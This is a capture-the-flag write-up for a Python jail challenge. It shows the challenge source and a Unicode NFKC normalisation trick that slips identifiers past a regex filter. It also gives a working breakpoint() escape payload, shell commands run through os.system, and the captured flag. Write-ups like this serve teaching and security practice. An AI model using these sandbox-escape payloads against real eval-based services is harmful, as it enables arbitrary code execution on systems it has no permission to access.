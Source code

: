 # A Horse with No Neighs

Categories: Jail/Python

Description:
> A Horse with No Neighs
>
> - 332 points
>
> "horse wearing an eyepatch "
>
>
> Can you beat a dead horse? This challenge fixes an unintended bug in [A Horse with No Names](../a-horse-with-no-names).
>
> `nc neigh.chal.uiuc.tf 1337`
> [Dockerfile](resources/Dockerfile) [desert.py](resources/desert.py)

**Tags:** python, jail

## Takeaways

- Using `breakpoint()`
- Using `eval(input())`
- Using `import os; os.system("sh")`
- Unicode characters in python that translate to literals.
  - e.g. The unicode character "𝖖" (U+0x1d596) is mapped to the ascii character "q"

## Solution

This challenge is a fix of unintended solutions of the previous challenge, [A Horse with No Names](../a-horse-with-no-names). Here is the challenge's source code:

```python
#!/usr/bin/python3
import re
import random
horse = input("Begin your journey: ")
if re.search(r"[a-zA-Z]{4}", horse):
    print("It has begun raining, so you return home.")
elif len(set(re.findall(r"[\W]", horse))) > 4:
    print(set(re.findall(r"[\W]", horse)))
    print("A dead horse cannot bear the weight of all those special characters. You return home.")
else:
    discovery = list(eval(compile(horse, "<horse>", "eval").replace(co_names=())))
    random.shuffle(discovery)
    print("You make it through the journey, but are severely dehydrated. This is all you can remember:", discovery)
```

We will not go into details here, as these have already been covered bu the [previous challenge](../a-horse-with-no-names). However, we will go over a diff of the two challenges:

```diff
diff --git a/a-horse-with-no-names/src/desert.py b/a-horse-with-no-neighs/src/desert.py
index 36d0560..8d0e911 100644
--- a/a-horse-with-no-names/src/desert.py
+++ b/a-horse-with-no-neighs/src/desert.py
@@ -2,11 +2,11 @@
 import re
 import random
 horse = input("Begin your journey: ")
-if re.match(r"[a-zA-Z]{4}", horse):
+if re.search(r"[a-zA-Z]{4}", horse):
     print("It has begun raining, so you return home.")
 elif len(set(re.findall(r"[\W]", horse))) > 4:
     print(set(re.findall(r"[\W]", horse)))
-    print("A single horse cannot bear the weight of all those special characters. You return home.")
+    print("A dead horse cannot bear the weight of all those special characters. You return home.")
 else:
     discovery = list(eval(compile(horse, "<horse>", "eval").replace(co_names=())))
     random.shuffle(discovery)```
```

As we can see, the only essential change is that `match` was changed to `search`. Here is the difference according to the [documentation](https://docs.python.org/3/library/re.html)

> `re.match`: If zero or more characters at the **beginning** of string match the regular expression pattern, return a corresponding match object.
>
> `re.search`: Scan through string looking for the first location where the regular expression pattern produces a match, and return a corresponding match object.

So clearly our previous payload will not work as it used name such as `open`, `hash`, `divmod`, etc. We also can no longer use the `lambda` keyword. We have to find a different approach.

### A fresh approach

Let's try with unicode characters. From the [documentation], we know that:

> Python 3.0 introduces additional characters from outside the ASCII range (see PEP 3131). For these characters, the classification uses the version of the Unicode Character Database as included in the [unicodedata](https://docs.python.org/3/library/unicodedata.html#module-unicodedata) module.
>
> ...
>
> **All identifiers are converted into the normal form NFKC while parsing; comparison of identifiers is based on NFKC.**

This is interesting. What if our input was "ev𝕒l(1)" instead of "eval(1)". Would this trigger the `re.match`? The answer is no.

`re.match` would be invoked on our input string "ev𝕒l(1)", which does not contain 4 consecutive alphabetical characters. The "𝕒" is U+0x1D552, which is not matched by the regex. However, when our input is placed inside `compile` to generate the code object, the identifier "ev𝕒l" is converted to its normal NFKC form according to the documentation. And the normal value of "𝕒" is "a"! We can write a simple python script that finds all these mappings:

```python
import sys
import string
import unicodedata
mappings = { }
for i in range(sys.maxunicode+1):
    c = chr(i)
    normalized_c = unicodedata.normalize('NFKC', c)
    if normalized_c != c:
        print(f"input {c} (U+{hex(i)}) is normalized to {normalized_c}")
        if normalized_c in string.printable:
            mappings.setdefault(normalized_c, []).append(c)
for normalized_c in sorted(mappings.keys()):
    unic_list = mappings[normalized_c]
    print(f"literal '{normalized_c}' can be represented by: {unic_list}")
```

and here the result:

![mapping.png](resources/mapping.png)

So, we can use that to bypass the `match` restriction, great! There is one small thing though. We cannot use `lambda` from our previous exploit. This is because `lambda` is a keyword and must appear as ASCII, thus not passing the `match` check.

The core idea behind the `lambda` in the previous exploit, was to increase nesting in order to bypass the `.replace(co_names=()` restriction. We can increase nesting by using instead list comprehension:

```python
horse='(eval for _ in (1,))'
code = compile(horse, "<horse>", "eval")
print(code.co_names)

# Out[15]: ()
```

Here, inside `horse`, we are creating a generator expression (`genexpr` object), `eval` is in a nested scope (in comparison to `1`, which is in the global scope), and `(1,)` is a tuple of one element.

### Putting the exploit together

So, let's combine all the pieces to generate our input exploit:

```python
(bre𝐚kpo𝐢nt() for _ in (1,))
```

In the source code, the result from `eval` is passed to a `list()` constructor. So, our generator object will become a concrete list and its elements will be evaluated.

Thus, when we enter the above payload, we get into the the Pdb debugger and can dump the flag:

```bash
(Pdb) import os; os.system('cat /flag.txt')
```

`uiuctf{my_challenges_always_have_unintended_solutions_and_i_am_less_okay_with_that}`

*(P.S.: Instead of `breakpoint`, we could also have used:*

- `eval(input())`
- `exec('import os; os.system("sh")')`

*with appropriate encoding ofcourse)*


